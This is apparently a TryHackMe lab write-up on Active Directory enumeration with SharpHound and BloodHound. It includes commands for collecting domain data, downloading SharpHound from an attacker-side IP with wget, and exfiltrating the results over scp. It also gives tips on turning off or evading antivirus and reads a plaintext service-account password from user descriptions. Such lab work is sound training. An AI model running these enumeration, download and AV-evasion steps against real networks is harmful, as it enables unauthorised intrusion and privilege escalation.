# Introduction

- There two different software in bloodhound framework

> 1. Sharphound - It collects data from the windows machine and convert it into zip or json files which can be sent to bloodhound for making graphs
> 2. Bloodhound - It makes graphs out  of the data collected from the sharphound binary

- There are three type of Sharphounds 

> 1. Sharphound.ps1 - PowerShell script for running Sharphound. However, the latest release of Sharphound has stopped releasing the Powershell script version. This version is good to use with RATs since the script can be loaded directly into memory, evading on-disk AV scans.
> 2. Sharphound.exe - A Windows executable version for running Sharphound.
> 3. AzureHound.ps1 - PowerShell script for running Sharphound for Azure (Microsoft Cloud Computing Services) instances. Bloodhound can ingest data enumerated from Azure to find attack paths related to the configuration of Azure Identity and Access Management.

- In this room we will use `Sharphound.ps1` for enumeration.
- Generally `sharphound` is noticed by the AV, but we can turn it off as we have access to the machine or we can add it to trusted binaries.


# Process

- Import module `Sharphound.ps1`.

```console
PS C:\Users\Administrator\Downloads> Import-Module .\SharpHound.ps1
```

- Start Sharphound

```console
PS C:\Users\Administrator\Downloads> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName revenue_stats
------------------------------------------------
Initializing SharpHound at 7:53 PM on 11/10/2022
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator\Downloads> [+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 112 MB RAM
Status: 66 objects finished (+66 66)/s -- Using 116 MB RAM
Enumeration finished in 00:00:01.2510403
Compressing data to C:\Users\Administrator\Downloads\20221110195327_revenue_stats.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 7:53 PM on 11/10/2022! Happy Graphing!
```

- Download this file to local machine

```console
❯ scp CONTROLLER\\Administrator@10.10.207.128:C:/Users/Administrator/Downloads/20221110195327_revenue_stats.zip  .
CONTROLLER\Administrator@10.10.207.128's password:
20221110195327_revenue_stats.zip                  100% 9540    30.5KB/s   00:00
```

- Start `neo4j` console

```console
❯ sudo neo4j console
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /usr/share/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /usr/share/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /usr/share/neo4j/run
Starting Neo4j.
2022-11-11 04:00:06.977+0000 INFO  Starting...
2022-11-11 04:00:07.761+0000 INFO  This instance is ServerId{fb27b5db} (fb27b5db-65a8-4bf2-a975-784965d0f3f5)
2022-11-11 04:00:10.090+0000 INFO  ======== Neo4j 4.4.7 ========
2022-11-11 04:00:12.193+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2022-11-11 04:00:12.194+0000 INFO  Updating the initial password in component 'security-users'
2022-11-11 04:00:14.653+0000 INFO  Bolt enabled on localhost:7687.
2022-11-11 04:00:16.179+0000 INFO  Remote interface available at http://localhost:7474/
2022-11-11 04:00:16.183+0000 INFO  id: 4AC57FDD6CA08E512162A5AB11FD1F4FCF9E0838C68C5D4741A39DA9F04A807F
2022-11-11 04:00:16.184+0000 INFO  name: system
2022-11-11 04:00:16.184+0000 INFO  creationDate: 2022-11-10T06:15:55.763Z
2022-11-11 04:00:16.186+0000 INFO  Started.
```

- Start bloodhound 

```console
❯ bloodhound --no-sandbox
(node:6323) electron: The default of contextIsolation is deprecated and will be changing from false to true in a future release of Electron.  See https://github.com/electron/electron/issues/23506 for more information
(node:6365) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
```

- Drag and drop zip file to bloodhound 
- It says file is not compatible.
- Downloaded zip file from [here](https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.4/SharpHound-v1.0.4.zip) of sharphound.
- Moved `SharpHound.exe` to the machine

```console
PS C:\Users\Administrator\Downloads> wget http://10.17.0.215/SharpHound.exe -o SharpHound.exe
```
- Started sharphound 

```console
PS C:\Users\Administrator\Downloads> .\Sharphound.exe --collectallproperties --OutputPrefix New_Revenue_Stats
2022-11-10T20:19:40.3444368-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-11-10T20:19:40.3600617-08:00|INFORMATION|Initializing SharpHound at 8:19 PM on 11/10/2022
2022-11-10T20:19:40.5475647-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-11-10T20:19:40.6881896-08:00|INFORMATION|Beginning LDAP search for CONTROLLER.local
2022-11-10T20:19:40.7194340-08:00|INFORMATION|Producer has finished, closing LDAP channel
2022-11-10T20:19:40.7663114-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-11-10T20:20:10.9225864-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-11-10T20:20:23.8144042-08:00|INFORMATION|Consumers finished, closing output channel
2022-11-10T20:20:24.0175259-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-11-10T20:20:24.1737715-08:00|INFORMATION|Status: 104 objects finished (+104 2.418605)/s -- Using 41 MB RAM
2022-11-10T20:20:24.1737715-08:00|INFORMATION|Enumeration finished in 00:00:43.4834514
2022-11-10T20:20:24.2831488-08:00|INFORMATION|SharpHound Enumeration Completed at 8:20 PM on 11/10/2022! Happy Graphing!
```
- Downloaded new zip to the local machine
- Drag and dropped to bloodhound, SUCCESS!!
![Screenshot for upload complete](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/Screenshot_2022-11-11_09-54-44.png)
- Found all domain admin with `SQLSERVICE` which is a service.
![Graph of all the admins](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/Domain_Admins_graph.png)
- Users who are kerberoastable  
![Graph of kerberoastable users](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/Kerberoastable_users_graph.png)
- We know that SQLSERVICE has password `MYpassword123#`

```console
PS C:\Users\Administrator\Downloads> Get-NetUser | Format-Table Name,description

name                description
----                -----------
Administrator       Built-in account for administering the computer/domain
Guest               Built-in account for guest access to the computer/domain
krbtgt              Key Distribution Center Service Account
Machine-1
Admin2
Machine-2
SQL Service         My password is MYpassword123#
POST{P0W3RV13W_FTW}
sshd
```
- We can escalate privilege from here
